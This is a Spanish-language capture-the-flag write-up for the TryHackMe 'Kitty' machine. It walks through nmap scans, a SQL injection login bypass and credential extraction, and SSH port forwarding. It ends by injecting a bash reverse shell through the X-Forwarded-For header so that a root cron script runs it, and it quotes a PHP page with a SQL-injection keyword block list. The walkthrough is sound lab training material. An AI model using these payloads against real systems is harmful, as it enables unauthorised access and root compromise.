

En esta maquina pondremos a prueba nuestro conocimiento en sql injection, el cual tendremos que explotar el sql injection para poder obtener las credenciales y usuario para ingresar a la maquina por el servicio `ssh`, para luego enumerar el sistema y así encontrarnos con un servicio `http` en el puerto `8080`. En este puerto se encuentra un sitio web que solo puede ver desde la maquina victima, para poder visualizarlo realizaremos port forwarning y así visualizar el sitio web.


- Link [Kitty](https://tryhackme.com/room/kitty)
- Created by  [tryhackme](https://tryhackme.com/p/tryhackme) and [hadrian3689](https://tryhackme.com/p/hadrian3689)

## Enumeración

Iniciamos con la enumeración de los puertos abiertos de la maquina victima con la herramienta de `nmap`

```php
❯ nmap -p- --open --min-rate 1000 -vvv 10.10.35.68 -Pn -n -oG allportsScan
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

Una vez que tengamos los puertos abiertos, procederemos a enumerar las versiones y servicios que se ejecutan en cada uno de los puertos.

```php
❯ nmap -p22,80 -sC -sV -n -Pn -vvv 10.10.35.68 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION                                                                                                                                                       
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                                  
| ssh-hostkey:                                                                                                                                                                             
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)                                                                                                                             
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCt6N8QTFPNouL2D0RrOP0gWnq3c+3uxXxxo3WkwE+Z+8KF8ox+bJRYWzbPk1RmEQv1ZFKDBNgbdrddpeP0SiC1y/tOQRb//1vy2ZqNtWyvDtHssObe62/F6yCl8eHC4jcbwLuzpEkAPEPbD/pPq9H5mueKqoIDAH2MAeuSf/XX/FQEhM51Bs+ADizyDeC2SfHa0W/U99ZyHFvqxlIYz5ZT43HVDiKmT9Di/9wclWmpwkpXgY6GtYjhrEez1+686rhVdWx8AJ5GRr5mvsM/VfiikTeNaLhaMVgT1BvfB4lOyeQ57Jiv+2xKd0Bx1fQ1fb2UiUFVRjXUEQVLqa7bOK1jcyuGw5KFXVoYfQcsgvllOxW3fJIMbnPYxxNgYhbYKv58cA13C1k5pgqyXxTep4lHAlFCaA1pcBZfPp2PTQET7cdtkJxmNyWWHfI1IqsyAZ4OQwKX0SxLEGdlviWn8GtZlF1l35LEeYu0YX4Mz847wX+9sf/dBWJNefPJgdqgVCs=       
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)                                                                                                                            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAWsc0tSRz6I0J/ap+bL8NzXIAM8Qb/CnghvNICsIfjYrgd8dFCNAcbRDu0G3PC2L81wjcHAdkERcgNr5OzETmE=                         
|   256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKiCZ2jVlW9/4CE63CtF8LcLBR+TJpEXonlXaj0LRE+
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

### Puerto 80

En el puerto 80 tenemos un sitio web que nos muestra un formulario


## Explotación
### SQL injection

Luego de podemos observar que el formulario es vulnerable a una inyección sql del cual haremos uso para enumerar la la información almacenada en la base de datos


Haciendo uso de `'or 1=1 -- -` para bypassear el panel de login


Luego de de interceptar con burpsuite podemos ver que para enumerar la información de la base de datos tendremos que tener en cuenta el `content` de la respuesta del servidor por lo que realizaremos un script en Python para automatizar la enumeracion de tablas y credenciales que se almacenan en la base de datos.

- Link de script  [Sqlinjection](https://github.com/b0ySie7e/Script_to_Resolve_CTF/blob/main/kitty-thm/sqlinjection.py)


```php
❯ python3 sqlinjection.py -u http://10.10.240.163/index.php
[+] Database: mywebsite
[+] Table: siteusers
[+] User: kitty
[+] Password: L0ng_Liv3_KittY
```

## Escalada de privilegios

Teniendo las credenciales y el usuario podremos iniciar sesión por el servicio `ssh`
### Usuario : kitty


Enumerando los puertos que tiene abierto la maquina victima tenemos observar un puerto `8080` del cual podemos explotarlo

```php
kitty@kitty:/tmp/tmp.zmc5whrtfC$ ss -tunl
```


También enumerando los procesos con `pspy` encontramos la siguiente ejecución:



El archivo `log_checker.sh` contiene el siguiente código el cual analizando podemos ver que se puede hacer uso para escalar privilegios.

```php
kitty@kitty:/tmp/tmp.zmc5whrtfC$ cat /opt/log_checker.sh
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged

```


Pero lamentablemente podemos hacer nada en dicho archivo, ya que no tenemos permisos.
### Port Forwarning 

Haciendo uso de `ssh` podemos realizar port forwarning y así podremos visualizar el sitio web que solo la maquina victima podía ver.

```php
❯ ssh kitty@10.10.254.151 -L 8081:127.0.0.1:8080
```

Luego podremos visualizar el siguiente contenido 


Analizando el contenido del sitio web podemos ver que la cabecera de `HTTP_X_FORWARDED_FOR` se almacena en una variable llamada `$IP`.  Luego en el siguiente código `file_put_contents("/var/www/development/logged", $ip);`  realiza el almacenamiento de lo que contiene la variable `$IP`

```php
kitty@kitty:/var/www/development$ cat index.php 
<?php
// Initialize the session
session_start();

// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: welcome.php");
    exit;
}

include('config.php');
$username = $_POST['username'];
$password = $_POST['password'];
// SQLMap 
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
        if (preg_match( $evilword, $username )) {
                echo 'SQL Injection detected. This incident will be logged!';
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
                $ip .= "\n";
                file_put_contents("/var/www/development/logged", $ip);
                die();
        } elseif (preg_match( $evilword, $password )) {
                echo 'SQL Injection detected. This incident will be logged!';
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
                $ip .= "\n";
                file_put_contents("/var/www/development/logged", $ip);
                die();
        }
}


$sql = "select * from siteusers where username = '$username' and password = '$password';";  
$result = mysqli_query($mysqli, $sql);  
$row = mysqli_fetch_array($result, MYSQLI_ASSOC);  
$count = mysqli_num_rows($result);
if($count == 1){
        // Password is correct, so start a new session
        session_start();

        // Store data in session variables
        $_SESSION["loggedin"] = true;
        $_SESSION["username"] = $username;
        // Redirect user to welcome page
        header("location: welcome.php");
} elseif ($username == ""){
        $login_err = "";
} else{
        // Password is not valid, display a generic error message
        $login_err = "Invalid username or password";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Development User Login</h2>
        <p>Please fill in your credentials to login.</p>

<?php 
if(!empty($login_err)){
        echo '<div class="alert alert-danger">' . $login_err . '</div>';
}        
?>

        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control">
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control">
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        <
```

Para que el contenido de `HTTP_X_FORWARDED_FOR` se almacena en la varible `$ip` debemos de acontecer un ataque de inyeccion sql


Esto con el fin de que se pueda almacenar el contenido en `/var/www/development/logged` para que luego de lectura con el script `log_checker.sh` 


Ahora realizaremos una inyección sql y al enviar obtenemos un mensaje de que se a detectado una inyección sql.


```php
username=admin'+OR+'1'='1&password=admin
```

Ahora, haciendo uso de la cabecera de `HTTP_X_FORWARDED_FOR` en donde inyectaremos una revershell par obtener una shell y el cual se almacenara en `/var/www/development/logged` 


```php
;bash -c 'exec bash -i &>/dev/tcp/10.9.115.196/443 <&1'
```

Vemos el contenido de `/var/www/development/logged` luego de enviar la petición con la cabecera, vemos que efectivamente se guardo con éxito nuestra revershell


### Usuario : root

Ahora nos ponemos a la escucha con `ncat` y podremos obtener una shell con permisos del usuario root


:P